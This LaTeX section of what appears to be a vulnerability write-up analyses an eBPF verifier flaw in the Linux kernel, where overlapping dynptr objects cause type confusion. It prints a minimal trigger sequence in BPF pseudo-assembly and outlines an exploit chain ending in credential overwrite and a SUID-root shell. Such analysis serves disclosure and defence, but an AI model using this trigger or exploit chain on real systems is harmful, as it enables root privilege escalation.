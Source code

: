 \documentclass[../main.tex]{subfiles}
\begin{document}
The practical exploit developed for this vulnerability does not stop at a verifier bypass. It uses the corrupted \texttt{dynptr} to obtain a stable OOB read/write primitive, calibrates physical memory placement, sprays \texttt{struct cred} objects, scans for UID/GID signatures, overwrites credentials and finally creates a SUID-root shell payload.

\subsection{Vulnerability Analysis}

The vulnerable sequence creates a first local \texttt{dynptr} at \texttt{fp-32}, then creates a second ring-buffer \texttt{dynptr} at \texttt{fp-24}. Since both objects are 16 bytes wide, the second object overwrites the metadata slot of the first one.

\begin{lstlisting}[caption={Overlapping dynptr layout used by the tested exploit.}]
dynptr1 at fp-32:
  [fp-32, fp-24)   data pointer
  [fp-24, fp-16)   size/type/offset metadata

dynptr2 at fp-24:
  [fp-24, fp-16)   data pointer
  [fp-16, fp-8)    size/type/offset metadata

overlap:
  [fp-24, fp-16)   dynptr1 metadata overwritten by dynptr2 data pointer
\end{lstlisting}

At verification time, \texttt{dynptr1} is still considered initialized and safe. At runtime, however, the helper creating \texttt{dynptr2} writes a ring-buffer pointer exactly where \texttt{dynptr1} stores its size and offset metadata. The result is a \textbf{type confusion condition}: the verifier believes it is dealing with a bounded local object, while the kernel executes operations on a corrupted object whose metadata was partially replaced by a kernel address.

The minimal trigger can be summarized as follows:

\begin{lstlisting}[language=C, caption={Core trigger sequence.}]
/* dynptr1: local dynptr backed by a BPF map value */
r1 = map_value;
r2 = 8;
r3 = 0;
r4 = fp - 32;
call bpf_dynptr_from_mem;

/* scrub the upper slot of dynptr1 */
*(u64 *)(fp - 24) = 0;

/* dynptr2: ringbuf dynptr overlapping dynptr1 metadata */
r1 = ringbuf;
r2 = 8;
r3 = 0;
r4 = fp - 24;
call bpf_ringbuf_reserve_dynptr;
\end{lstlisting}
\end{document}
